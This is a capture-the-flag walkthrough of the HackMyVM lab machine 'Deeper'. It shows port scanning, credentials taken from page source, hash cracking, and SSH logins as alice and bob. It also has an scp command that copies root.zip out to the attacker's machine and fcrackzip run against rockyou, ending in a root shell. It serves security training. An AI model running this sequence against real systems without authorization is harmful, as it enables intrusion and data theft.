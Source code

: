 ```yaml
---
categories: [HackMyVM]
tags: [PrivEsc, enum, fcrackzip, scp]
img_path: /Vulnhub-Files/img/
image:
  path: Deeper/Untitled.png
  alt: HackMyVM Machine ⚔️
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#scp</kbd>&nbsp;&nbsp;<kbd>#fcrackzip</kbd>&nbsp;&nbsp;<kbd>#enum</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Deeper/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.82   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:08 IST
Nmap scan report for 10.0.2.82
Host is up (0.00083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 37:d1:6f:b5:a4:96:e8:78:18:c7:77:d0:3e:20:4e:55 (ECDSA)
|_  256 cf:5d:90:f3:37:3f:a4:e2:ba:d5:d7:25:c6:4a:a0:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Deeper
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:58:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

While checking port 80 →

![Untitled](Deeper/Untitled%202.png)

I checked the source code and got the `PATH` →

![Untitled](Deeper/Untitled%203.png)

After going in this path I got the credentials →

![Untitled](Deeper/Untitled%204.png)

and Password through scrolling further more →

![Untitled](Deeper/Untitled%205.png)

Now I decoded these encodings/hashes and got the results for SSH Login →

I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for cracking of these hashes →

![Untitled](Deeper/Untitled%206.png)

After cracking password I logged in as user Alice .

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh alice@10.0.2.82                  
The authenticity of host '10.0.2.82 (10.0.2.82)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.82' (ED25519) to the list of known hosts.
alice@10.0.2.82 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ ls -al
total 32
drwxr--r-- 3 alice alice 4096 Aug 26 00:14 .
drwxr-xr-x 4 root  root  4096 Aug 25 20:07 ..
lrwxrwxrwx 1 alice alice    9 Aug 25 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25 17:58 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25 17:58 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25 20:43 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26 00:14 .local
-rw-r--r-- 1 alice alice  807 Aug 25 17:58 .profile
-rw-r--r-- 1 alice alice   33 Aug 26 00:14 user.txt
alice@deeper:~$
```

Now I got the encoded password for bob user from `.bob.txt` file .

I Logged in as bob user →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh bob@10.0.2.84      
The authenticity of host '10.0.2.84 (10.0.2.84)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.84' (ED25519) to the list of known hosts.
bob@10.0.2.84 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:05:57 2023 from 192.168.100.103
bob@deeper:~$ ls -al
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26 00:22 .
drwxr-xr-x 4 root root 4096 Aug 25 20:07 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25 20:44 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25 20:17 .local
-rw-r--r-- 1 bob  bob   807 Aug 25 20:09 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26 00:21 root.zip
bob@deeper:~$ file root.zip 
root.zip: Zip archive data, at least v1.0 to extract, compression method=store
bob@deeper:~$ unzip 
-bash: unzip: command not found
bob@deeper:~$
```

I have to transfer this `root.zip` file to the attacker machine so for that I used the command `scp` that id used to transfer files.

```bash
bob@deeper:~$ scp root.zip kali@10.0.2.77:~/Downloads/HackMyVM/Deeper/root.zip
kali@10.0.2.77's password: 
root.zip                      100%  215    82.9KB/s   00:00    
bob@deeper:~$
```

 

Now this file is password protected to I used another Tool called as `fcrackzip` to crack this zip file password →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob
```

Now I extracted the password of root user from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```

Now I am root !!

```bash
bob@deeper:~$ su root
Password: 
root@deeper:/home/bob# cd ~
root@deeper:~# ls -al
total 32
drwx------  4 root root 4096 Aug 26 00:48 .
drwxr-xr-x 18 root root 4096 Aug 25 17:55 ..
lrwxrwxrwx  1 root root    9 Aug 25 18:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25 23:57 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25 19:53 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26 00:48 root.txt
drwx------  2 root root 4096 Aug 25 17:52 .ssh
root@deeper:~# whoami
root
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@deeper:~# hostname
deeper
root@deeper:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:33:4f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.84/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 440sec preferred_lft 440sec
    inet6 fe80::a00:27ff:fe33:4f51/64 scope link 
       valid_lft forever preferred_lft forever
root@deeper:~# cat root.txt
FLAG----FLAG----FLAG----FLAG
root@deeper:~#
```

